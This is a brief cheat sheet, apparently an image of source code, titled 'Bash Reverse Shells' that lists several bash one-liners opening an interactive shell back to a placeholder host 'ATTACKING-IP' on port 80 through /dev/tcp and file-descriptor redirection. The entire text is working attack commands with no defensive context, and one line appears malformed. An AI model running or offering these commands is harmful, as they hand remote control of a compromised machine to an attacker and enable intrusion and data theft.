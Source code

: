 #Bash Reverse Shells  
exec /bin/bash 0&0 2>&0  
#  
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196  
#  
exec 5<>/dev/tcp/ATTACKING-IP/80  
cat <&5 | while read line; do $line 2>&5 >&5; done    
# or:  
while read line 0<&5; do $line 2>&5 >&5; done  
#  
bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1  
#